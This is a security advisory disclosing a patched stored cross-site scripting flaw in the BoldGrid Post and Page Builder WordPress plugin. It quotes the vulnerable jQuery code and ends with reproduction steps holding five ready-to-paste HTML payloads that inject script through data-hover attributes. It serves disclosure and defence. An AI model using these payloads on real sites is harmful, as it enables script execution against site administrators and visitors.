



# Post and Page Builder by BoldGrid – Visual Drag and Drop Editor <= 1.27.10 - Contributor+ Stored Cross-Site Scripting via data-hover-bg-class, data-hover-image-url, data-hover-bg-overlaycolor, data-hover-bg-position, Attribute

## Timeline

- 31/5/2026 - Submission to Wprdfence
- 9/6/2026 - The vendor released a patched version of the plugin (v1.27.11).
- 31/8/2026 - Wordfence marked as not eligible for a CVE ID because "Already patched in version 1.27.11"

## Software Details

| Key              | Value                                                           |
| ---------------- | --------------------------------------------------------------- |
| Software Name    | Post and Page Builder by BoldGrid – Visual Drag and Drop Editor |
| Software Slug    | post-and-page-builder                                           |
| Software URL     | https://wordpress.org/plugins/post-and-page-builder/            |
| Affected Version | <= 1.27.10                                                      |
## Description

A Stored Cross-Site Scripting (XSS) vulnerability exists in the Post and Page Builder by BoldGrid – Visual Drag and Drop Editor WordPress plugin due to unsafe HTML string construction from the hover-background `data-hover-*` attributes of elements carrying the `has-hover-bg` class. Three separate routines read these attributes from the DOM via jQuery `.attr()` — which returns the fully browser-decoded value — and concatenate them, without any HTML encoding, into inline `<style>…</style>` strings that are then passed to jQuery's `.append()`. Because `.append()` parses the string as HTML, a value that closes the style element and opens a script — e.g. `</style><script>alert(document.domain)</script>` — causes jQuery to create and execute a live `<script>` node.

  The affected attributes are all interpolated into the CSS/`<style>` strings unescaped:

  - `data-hover-bg-class` — interpolated both as the CSS selector and into the `<style id="…"> `attribute, on every iteration, independent of any other attribute.
  - `data-hover-image-url` — interpolated into `url('…')` inside the `background-image` rule.
  - `data-hover-bg-overlaycolor` — interpolated into the `linear-gradient(...)` overlay.
  - `data-hover-bg-position` — interpolated into `background-position: 50% …%`.
  - `data-hover-bg-color` — interpolated into `background-color: …`

  Since the injection escapes via the literal `</style>` token regardless of which CSS property the value lands in, every one of these attributes is an independent XSS sink.

  The vulnerable code appears in three places:

  1. `assets/js/builder/controls/element/background-legacy.js` — `_setupHoverBoxes()` (runs on editor load), plus the `_addHoverEffects()` / `_addHeadingStyle()` helpers (run on hover-control edits).
  2. `assets/js/builder/controls/element/background.js` — `_setupLegacyHoverBoxes()`, a near-identical copy that also runs in the editor.
  3. `assets/js/public.js` — `setupHoverBoxes()`, which runs on the published front end for every visitor.

  Server-side sanitization (`wp_kses_post`) does not mitigate this. WordPress globally allows `data-*` attributes, so each payload is stored entity-encoded — e.g. `data-hover-bg-class="&lt;/style&gt;&lt;script&gt;…&lt;/script&gt;"` — and passes through unchanged. The browser decodes it back into the live DOM attribute at render time, and the plugin then reads the decoded value and re-injects it as raw HTML. This encode-decode-re-inject cycle is what bypasses sanitization.

  Any user with `edit_posts` capability (Contributor+) can supply the crafted markup through raw post_content (classic editor Text view, REST API with status=pending, or any path placing arbitrary attributes into content). The injected script then executes in two contexts: in the editor iframe (WordPress admin origin) for any Editor/Administrator who opens the post in the page builder, and on the front end for every visitor — including unauthenticated users — of the published post. A single Contributor-stored payload therefore yields both a privilege-escalating admin-context stored XSS and a site-wide stored XSS.

## Implications

A Contributor-level user can store JavaScript via any of the hover-background data-hover-* attributes that executes in the browser of every visitor to the published post and any admin who opens it in the page builder. 

## Vulnerability Type

Stored Cross-Site Scripting

## Authentication Level Required

Contributor+

## PoC Video

https://github.com/user-attachments/assets/b2c8ae8f-66ca-4f78-994a-0d8b494801f8


## References to Affected Code

1. Editor context: `background-legacy.js`, `_setupHoverBoxes()`. Runs when content loads in the editor. Reads all five attributes via `.attr()` and interpolates them into `<style>` strings appended to the editor iframe `<head>`; the unconditional mobile-image append at the tail of the loop is reached even when no URL/color/overlay is present:
> https://plugins.trac.wordpress.org/browser/post-and-page-builder/tags/1.27.10/assets/js/builder/controls/element/background-legacy.js#L223
```js
_setupHoverBoxes() {
    var css   = '',
        $head = $( tinyMCE.activeEditor.iframeElement )
	        .contents()
	        .find( 'head' ),
        $body = $( tinyMCE.activeEditor.iframeElement )
	        .contents()
	        .find( 'body' ),
        $hoverBoxes = $body.find( '.has-hover-bg' );

    $hoverBoxes.each( ( index, hoverBox ) => {
        var $hoverBox     = $( hoverBox ),
            hoverBoxClass = $hoverBox.attr( 'data-hover-bg-class' ),        // decoded raw string
            hoverBgUrl    = $hoverBox.attr( 'data-hover-image-url' ),        // decoded raw string
            hoverOverlay  = $hoverBox.attr( 'data-hover-bg-overlaycolor' ),  // decoded raw string
            hoverBgSize   = $hoverBox.attr( 'data-hover-bg-size' ),
			hoverBgSize   = hoverBgSize ? hoverBgSize : 'cover',
            hoverBgPos    = $hoverBox.attr( 'data-hover-bg-position' ),      // decoded raw string
            hoverBgPos    = hoverBgPos ? hoverBgPos : '50',
            hoverBgColor  = $hoverBox.attr( 'data-hover-bg-color' );         // decoded raw string
        
        if ( 'cover' === hoverBgSize ) {
			hoverBgSize =
				'background-size: cover !important; background-repeat: "unset  !important";';
		} else {
			hoverBgSize =
				'background-size: auto auto !important; background-repeat: repeat  !important;';
		}

		if ( hoverOverlay && hoverBgUrl ) {
			css  = `.${hoverBoxClass}:hover {`;
			css += `background-image: linear-gradient(to left, ${hoverOverlay}, ${
				hoverOverlay
			} ), url('${hoverBgUrl}') !important; }`;
			$head.append( `<style id="${hoverBoxClass}-image">${css}</style>` );

			css = `.${hoverBoxClass}:hover { background-position: 50% ${hoverBgPos}% !important; }`;
			$head.append( `<style id="${hoverBoxClass}-position">${css}</style>` );

			css = `.${hoverBoxClass}:hover { ${hoverBgSize} }`;
			$head.append( `<style id="${hoverBoxClass}-bg-size">${css}</style>` );
		} else if ( hoverBgUrl ) {
			css  = `.${hoverBoxClass}:hover {`;
			css += `background-image: url('${hoverBgUrl}') !important; }`;
			$head.append( `<style id="${hoverBoxClass}-image">${css}</style>` );

			css = `.${hoverBoxClass}:hover { background-position: 50% ${hoverBgPos}% !important; }`;
			$head.append( `<style id="${hoverBoxClass}-position">${css}</style>` );

			css = `.${hoverBoxClass}:hover { ${hoverBgSize} }`;
			$head.append( `<style id="${hoverBoxClass}-bg-size">${css}</style>` );
		}

		if ( hoverBgColor && hoverBgUrl ) {
			css = `.${hoverBoxClass}:hover { background-color: ${hoverBgColor} !important; }`;
			$head.append( `<style id="${hoverBoxClass}-bg-color">${css}</style>` );
		} else if ( hoverBgColor && ! hoverBgUrl ) {
			css = `.${hoverBoxClass}:hover { background-color: ${hoverBgColor} !important; }`;
			$head.append( `<style id="${hoverBoxClass}-bg-color">${css}</style>` );

			css = `.${hoverBoxClass}:hover {background-image: unset !important; }`;
			$head.append( `<style id="${hoverBoxClass}-image">${css}</style>` );
		}

		css = '@media screen and (max-width: 991px) {';
		if ( hoverBoxClass && hoverBgUrl && hoverOverlay ) {
			let hoverCss = self.getOverlayImage( hoverOverlay ) + ', url("' + hoverBgUrl + '")';
			css += `.${hoverBoxClass}.hover-mobile-bg {background-image: ${hoverCss} !important; }`;
			css += `.${hoverBoxClass}.hover-mobile-bg:hover {background-image: ${
				hoverCss
			} !important; }`;
		} else if ( hoverBoxClass && ! hoverBgUrl && hoverBgColor ) {
			css += `.${hoverBoxClass}.hover-mobile-bg {
				background-color: ${hoverBgColor} !important;
				background-image: none !important;
			}`;
		} else {
			css += `.${hoverBoxClass}.hover-mobile-bg { background-image: url('${
				hoverBgUrl
			}') !important; } }`;
		}
		$head.append( `<style id="${hoverBoxClass}-mobile-image">${css}</style>` );
	} );
},
```

The shared helper `_addHeadingStyle()`, invoked by `_addHoverEffects()` on hover-control edits, appends the same unescaped interpolation:
> https://plugins.trac.wordpress.org/browser/post-and-page-builder/tags/1.27.10/assets/js/builder/controls/element/background-legacy.js#L498
```js
_addHeadingStyle: function( styleId, css ) {
    var $target = self.getTarget(),
		$body = $target.parents( 'body' ),
		$head = $body.parent().find( 'head' );
    ...
    $head.append( '<style id="' + styleId + '">' + css + '</style>' );   // styleId/css carry hover-bg attrs
},
```

2. Editor context: `background.js`, `_setupLegacyHoverBoxes()`. A near-identical duplicate of the routine above, also executed in the editor.
> https://plugins.trac.wordpress.org/browser/post-and-page-builder/tags/1.27.10/assets/js/builder/controls/element/background.js#L280
```js
_setupLegacyHoverBoxes() {
	var css         = '',
		$head       = $( tinyMCE.activeEditor.iframeElement )
			.contents()
			.find( 'head' ),
		$body       = $( tinyMCE.activeEditor.iframeElement )
			.contents()
			.find( 'body' ),
		$hoverBoxes = $body.find( '.has-hover-bg' );

	$hoverBoxes.each( ( index, hoverBox ) => {
		var $hoverBox     = $( hoverBox ),
			hoverBoxClass = $hoverBox.attr( 'data-hover-bg-class' ),
			hoverBgUrl    = $hoverBox.attr( 'data-hover-image-url' ),
			hoverOverlay  = $hoverBox.attr( 'data-hover-bg-overlaycolor' ),
			hoverBgSize   = $hoverBox.attr( 'data-hover-bg-size' ),
			hoverBgSize   = hoverBgSize ? hoverBgSize : 'cover',
			hoverBgPos    = $hoverBox.attr( 'data-hover-bg-position' ),
			hoverBgPos    = hoverBgPos ? hoverBgPos : '50',
			hoverBgColor  = $hoverBox.attr( 'data-hover-bg-color' );
		
		if ( 'cover' === hoverBgSize ) {
			hoverBgSize =
				'background-size: cover !important; background-repeat: "unset  !important";';
		} else {
			hoverBgSize =
				'background-size: auto auto !important; background-repeat: repeat  !important;';
		}

		if ( hoverOverlay && hoverBgUrl ) {
			css  = `.${hoverBoxClass}:hover {`;
			css += `background-image: linear-gradient(to left, ${hoverOverlay}, ${
				hoverOverlay
			} ), url('${hoverBgUrl}') !important; }`;
			$head.append( `<style id="${hoverBoxClass}-image">${css}</style>` );

			css = `.${hoverBoxClass}:hover { background-position: 50% ${hoverBgPos}% !important; }`;
			$head.append( `<style id="${hoverBoxClass}-position">${css}</style>` );

			css = `.${hoverBoxClass}:hover { ${hoverBgSize} }`;
			$head.append( `<style id="${hoverBoxClass}-bg-size">${css}</style>` );
		} else if ( hoverBgUrl ) {
			css  = `.${hoverBoxClass}:hover {`;
			css += `background-image: url('${hoverBgUrl}') !important; }`;
			$head.append( `<style id="${hoverBoxClass}-image">${css}</style>` );

			css = `.${hoverBoxClass}:hover { background-position: 50% ${hoverBgPos}% !important; }`;
			$head.append( `<style id="${hoverBoxClass}-position">${css}</style>` );

			css = `.${hoverBoxClass}:hover { ${hoverBgSize} }`;
			$head.append( `<style id="${hoverBoxClass}-bg-size">${css}</style>` );
		}

		if ( hoverBgColor && hoverBgUrl ) {
			css = `.${hoverBoxClass}:hover { background-color: ${hoverBgColor} !important; }`;
			$head.append( `<style id="${hoverBoxClass}-bg-color">${css}</style>` );
		} else if ( hoverBgColor && ! hoverBgUrl ) {
			css = `.${hoverBoxClass}:hover { background-color: ${hoverBgColor} !important; }`;
			$head.append( `<style id="${hoverBoxClass}-bg-color">${css}</style>` );

			css = `.${hoverBoxClass}:hover {background-image: unset !important; }`;
			$head.append( `<style id="${hoverBoxClass}-image">${css}</style>` );
		}

		css = '@media screen and (max-width: 991px) {';
		if ( hoverBoxClass && hoverBgUrl && hoverOverlay ) {
			let overlayImage = 'linear-gradient(to left, ' + hoverOverlay + ', ' + hoverOverlay + ')';
			let hoverCss = overlayImage + ', url("' + hoverBgUrl + '")';
			css += `.${hoverBoxClass}.hover-mobile-bg {background-image: ${hoverCss} !important; }`;
			css += `.${hoverBoxClass}.hover-mobile-bg:hover {background-image: ${
				hoverCss
			} !important; }`;
		} else if ( hoverBoxClass && ! hoverBgUrl && hoverBgColor ) {
			css += `.${hoverBoxClass}.hover-mobile-bg {
				background-color: ${hoverBgColor} !important;
				background-image: none !important;
			}`;
		} else {
			css += `.${hoverBoxClass}.hover-mobile-bg { background-image: url('${
				hoverBgUrl
			}') !important; } }`;
		}
		$head.append( `<style id="${hoverBoxClass}-mobile-image">${css}</style>` );
	} );
...
```

3. Front-end context: `public.js`, `setupHoverBoxes()`. Enqueued unconditionally via `front_end()` and run on every page view. Reads the same attributes, interpolates them unconditionally into the selector, and appends the accumulated string to the page `<head>`, executing for every visitor including unauthenticated users:
> https://plugins.trac.wordpress.org/browser/post-and-page-builder/tags/1.27.10/assets/js/public.js#L377
```js
setupHoverBoxes() {
    var $hoverBoxes = $( '.has-hover-bg' ),
		css         = '';

    $hoverBoxes.each( ( index, hoverBox ) => {
        var $hoverBox     = $( hoverBox ),
            hoverBoxClass = $hoverBox.attr( 'data-hover-bg-class' ),
            hoverBgUrl    = $hoverBox.attr( 'data-hover-image-url' ),
            hoverOverlay  = $hoverBox.attr( 'data-hover-bg-overlaycolor' ),
            hoverBgSize   = $hoverBox.attr( 'data-hover-bg-size' ),
			hoverBgSize   = hoverBgSize ? hoverBgSize : 'cover',
			hoverBgPos    = $hoverBox.attr( 'data-hover-bg-position' ),
			hoverBgPos    = hoverBgPos ? hoverBgPos : '50',
			hoverBgColor  = $hoverBox.attr( 'data-hover-bg-color' );
        
        if ( 'cover' === hoverBgSize ) {
			hoverBgSize = 'background-size: cover  !important; background-repeat: "unset  !important";';
		} else {
			hoverBgSize = 'background-size: auto auto  !important; background-repeat: repeat  !important;';
		}

		css  += '@media screen and (min-width: 992px) {';
		css += `.${hoverBoxClass}:hover {`;

		if ( hoverOverlay && hoverBgUrl ) {
			css += `background-image: linear-gradient(to left, ${hoverOverlay}, ${hoverOverlay} ), url('${hoverBgUrl}') !important;`;
			css += `background-position: 50% ${hoverBgPos}% !important;`;
			css += hoverBgSize;
		} else if ( hoverBgUrl ) {
			css += `background-image: url('${hoverBgUrl}') !important;`;
			css += `background-position: 50% ${hoverBgPos}% !important;`;
			css += hoverBgSize;
		} else if ( hoverBgColor ) {
			css += `background-color: ${hoverBgColor} !important;`;
			css += 'background-image: none !important;';
		}
		css += '}';
		css += '}';

		css  += '@media screen and (max-width: 991px) {';

		if ( hoverOverlay && hoverBgUrl ) {
			css += `.${hoverBoxClass}.hover-mobile-bg, .${hoverBoxClass}.hover-mobile-bg:hover { `;
			css += `background-image: linear-gradient(to left, ${hoverOverlay}, ${hoverOverlay} ), url('${hoverBgUrl}') !important;`;
			css += `background-position: 50% ${hoverBgPos}% !important;`;
			css += '}';
		} else if ( ! hoverBgUrl && hoverBgColor ) {
			css += `.${hoverBoxClass}.hover-mobile-bg, .${hoverBoxClass}.hover-mobile-bg:hover { `;
			css += `background-color: ${hoverBgColor} !important;`;
			css += 'background-image: none !important;';
			css += '}';
		} else {
			css += `.${hoverBoxClass}.hover-mobile-bg { background-image: url('${hoverBgUrl}') !important; }`;
		}
		css += '}';
	} );

	$( 'head' ).append( `<style id="bg-hoverboxes-css">${css}</style>` );
}
```

## Remediation

Update the plugin to version 1.27.11 or later.


## Preconditions


1. Setup WordPress environment with (PHP v8.2.29, MySQL 8.0.35, and WordPress 7.0)
2. "Post and Page Builder by BoldGrid – Visual Drag and Drop Editor" plugin is installed
3. The default plugin setup is performed (Click **Skip Setup** will automatically set it to default)

## Steps to Reproduce

1. Log in as a Contributor (or higher), navigate to **Posts**, **Add Post**.
2. Open the editor's Code View (Text view), insert any of the following payload into the post content, and click **Submit for Review**:
> data-hover-bg-class
```html
<div class="has-hover-bg" data-hover-bg-class="&lt;/style&gt;&lt;script&gt;alert(document.domain + ' from data-hover-bg-class')&lt;/script&gt;">3l5h0pky</div>
```

> data-hover-image-url
```html
<div class="has-hover-bg" data-hover-image-url="&lt;/style&gt;&lt;script&gt;alert(document.domain + ' from data-hover-image-url')&lt;/script&gt;">3l5h0pky</div>
```

> data-hover-bg-overlaycolor
```html
<div class="has-hover-bg" data-hover-image-url="x" data-hover-bg-overlaycolor="&lt;/style&gt;&lt;script&gt;alert(document.domain + ' from data-hover-bg-overlaycolor')&lt;/script&gt;">3l5h0pky</div>
```

> data-hover-bg-position
```html
<div class="has-hover-bg" data-hover-image-url="x" data-hover-bg-position="&lt;/style&gt;&lt;script&gt;alert(document.domain + ' from data-hover-bg-position')&lt;/script&gt;">3l5h0pky</div>
```

> data-hover-bg-color
```html
<div class="has-hover-bg" data-hover-bg-color="&lt;/style&gt;&lt;script&gt;alert(document.domain + ' from data-hover-bg-color')&lt;/script&gt;">3l5h0pky</div>
```



3. Log in as an **Administrator** or **Editor**, navigate to **Posts** ->  **All Posts**, then open the submitted post for editing. Observe the payload execute automatically when the post loads into the editor.



4. Publish the post and visit its public URL. Observe the payload execute on page load as well. Confirming it fires not only in the editor but for every visitor of the published post.


